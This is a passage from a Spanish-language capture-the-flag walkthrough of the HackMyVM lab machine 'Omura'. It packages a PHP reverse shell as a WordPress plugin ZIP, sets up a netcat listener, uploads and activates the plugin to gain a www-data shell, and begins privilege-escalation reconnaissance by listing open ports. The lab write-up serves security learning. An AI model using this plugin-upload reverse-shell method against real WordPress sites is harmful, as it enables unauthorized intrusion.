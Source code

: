 Una vez hecho esto tenemos que crear un **ZIP** con este fichero dentro:

```sh
┌──(root㉿kali)-[~/…/VMs/HMV/Omura/exploits]
└─# zip WPReverseShell.zip ./WPReverseShell.php
  adding: WPReverseShell.php (deflated 28%)
```

¡Perfecto! Ya tenemos todo preparado, ahora sólo nos falta ponernos en escucha por el puerto que hayamos especificado anteriormente:

```sh
┌──(root㉿kali)-[~/Desktop/VMs/HMV/Omura]
└─# nc -nlvp 4444
listening on [any] 4444 ...
```

Ahora sí estamos listos. Nos iremos al apartado de `Plugins -> Add New -> Upload Plugin`. Una vez ahí tenemos que seleccionar el fichero **ZIP** que habíamos creado. Le damos a `Install Now` y después a `Activate Plugin`.

Después de todos estos pasos veremos que nos llega una `Shell` como `www-data`:

```sh
┌──(root㉿kali)-[~/Desktop/VMs/HMV/Omura]
└─# nc -nlvp 4444
listening on [any] 4444 ...
connect to [192.168.1.105] from (UNKNOWN) [192.168.1.109] 56278
bash: cannot set terminal process group (482): Inappropriate ioctl for device
bash: no job control in this shell
www-data@omura:/var/www/wordpress/wp-admin$
```

¡Estupendo! Ya estamos como `www-data` en la máquina.

### Subida de privilegios
El siguiente paso no será tan fácil como el anterior, tendremos que buscar algo más de información para poder llevarlo a cabo.

¿Os acordáis del puerto `3260` del principio? Es hora de utilizarlo y ganar **control total** sobre la máquina.

Si listamos los puertos activos que hay veremos lo siguiente:

```sh
www-data@omura:/$ ss -altpn
State  Recv-Q Send-Q Local Address:Port Peer Address:PortProcess
LISTEN 0      80         127.0.0.1:3306      0.0.0.0:*          
LISTEN 0      128          0.0.0.0:22        0.0.0.0:*          
LISTEN 0      256          0.0.0.0:3260      0.0.0.0:*          
LISTEN 0      511                *:80              *:*          
LISTEN 0      128             [::]:22           [::]:*
```

Vamos a cambiar un poco el comando para ver algo más de información:

```sh
www-data@omura:/$ ss -altp
State  Recv-Q Send-Q Local Address:Port         Peer Address:PortProcess
LISTEN 0      80         127.0.0.1:mysql             0.0.0.0:*          
LISTEN 0      128          0.0.0.0:ssh               0.0.0.0:*          
LISTEN 0      256          0.0.0.0:iscsi-target      0.0.0.0:*          
LISTEN 0      511                *:http                    *:*          
LISTEN 0      128             [::]:ssh                  [::]:*
```
